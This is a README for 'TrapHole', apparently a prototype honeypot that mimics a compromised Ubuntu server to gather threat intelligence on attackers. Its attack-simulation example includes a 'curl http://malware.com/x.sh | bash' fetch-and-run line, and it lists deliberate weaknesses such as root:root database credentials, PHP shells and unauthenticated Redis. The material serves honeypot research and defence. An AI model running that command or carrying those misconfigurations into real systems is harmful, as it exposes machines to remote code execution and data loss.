

 **TrapHole**  (Prototype)
**Next-Gen Deception Environment for Threat Intelligence**

**v1.0 | PROOT | MULTI-VECTOR TRAPS | THREAT INTEL API**

---

### 🔍 TL;DR

**TrapHole** is a high-interaction honeypot that emulates a compromised Ubuntu server inside a Proot container, featuring:

- **11+ vulnerable services** (SSH, MySQL, Redis, etc.) with realistic misconfigurations.  
- **Behavioral fingerprinting** of attackers (TTPs, tooling, motives).  
- **Auto-trapping** for malware drops, C2 callbacks, and lateral movement.  
- **Threat intel** (AbuseIPDB, GreyNoise, VirusTotal) + Slack/Email alerts.  

```bash
# Deploy in 3 commands
git clone https://github.com/yourusername/traphole.git && cd traphole  
sudo ./setup.sh  # Creates ~/traphole_env  
python3 traps/traphole_monitor.py --dashboard --geoip  
```

---

### 🕵️ Why TrapHole?

| Feature         | TrapHole           | Cowrie         | Dionaea         |
|------------------|--------------------|----------------|-----------------|
| **Realistic OS** | ✅ Ubuntu Proot    | ❌ Minimal shell | ❌ Service-only |
| **Multi-Vector** | ✅ 11+ services    | ❌ SSH-only     | ✅ Limited       |
| **Threat Intel** | ✅ API Integration | ❌ Manual       | ❌ None          |
| **Deception**    | ✅ Fake creds/files | ❌ Basic        | ❌ None          |

---

### 🧠 Architecture



---

### 🛠️ Core Components

#### 1. **Traps**

- **SSH**: Weak ciphers (aes128-cbc), fake authorized_keys, bash history injection.  
- **MySQL**: root:root creds, exposed `LOAD_FILE()`.  
- **Web**: PHP shells, vulnerable wp-admin, fake `.env` files.  
- **Redis**: Unauthenticated, FLUSHALL allowed.  

#### 2. **Monitoring**

- `traphole_monitor.py`:  
    - Logs attacker commands, file changes, and network calls.  
    - Calculates **threat scores** (0-100) based on behavior.  
    - Enriches IPs with ASN/GeoIP/TOR data.  

#### 3. **Threat Intel**

```python
# Example: Auto-report attackers to AbuseIPDB  
if threat_score > 70:  
    submit_to_abuseipdb(ip, "TrapHole Honeypot Hit")  
```

---

### 💀 Attack Simulation

```bash
# Attacker's view (example)  
ssh -oCiphers=aes128-cbc admin@traphole  
Password: admin123  # Fake creds trigger logging  

# Inside the honeypot:  
cat /fake/credentials.txt  # Triggers file access alert  
curl http://malware.com/x.sh | bash  # Triggers malware download alert  
```

---

### 📊 Dashboard

**Key metrics**: Attack heatmap, top TTPs, threat scores over time.  

```bash
# Start dashboard (port 8080)  
python3 traps/traphole_monitor.py --dashboard  
```

---

### ⚡ Pro Tips

- **Cloud Deployment**:  
```bash
# DigitalOcean + Public IP = More Attackers  
apt-get install tmux && tmux new -s traphole  
./setup.sh --public  
```

- **Log Export**: Pipe logs to ELK or Splunk for analysis.  
- **Custom Traps**: Add new traps in `~/traphole_env/traps/custom/`.  

---

### ☠️ Disclaimer

**WARNING**: TrapHole contains real vulnerabilities. Isolate it from production networks.  
By using this tool, you agree that the authors are not responsible for any misuse.

---

### 📜 License

**GPL-3.0** - Share your trap improvements!

---

### 🚀 Contribute

- Add new services to `setup.sh`.  
- Improve the dashboard with D3.js.  
- Submit attack patterns to `traps/patterns.json`.  

---

#### *<p align="center"> Coded by <a href="https://github.com/yourusername">LIONMAD</a> </p>*
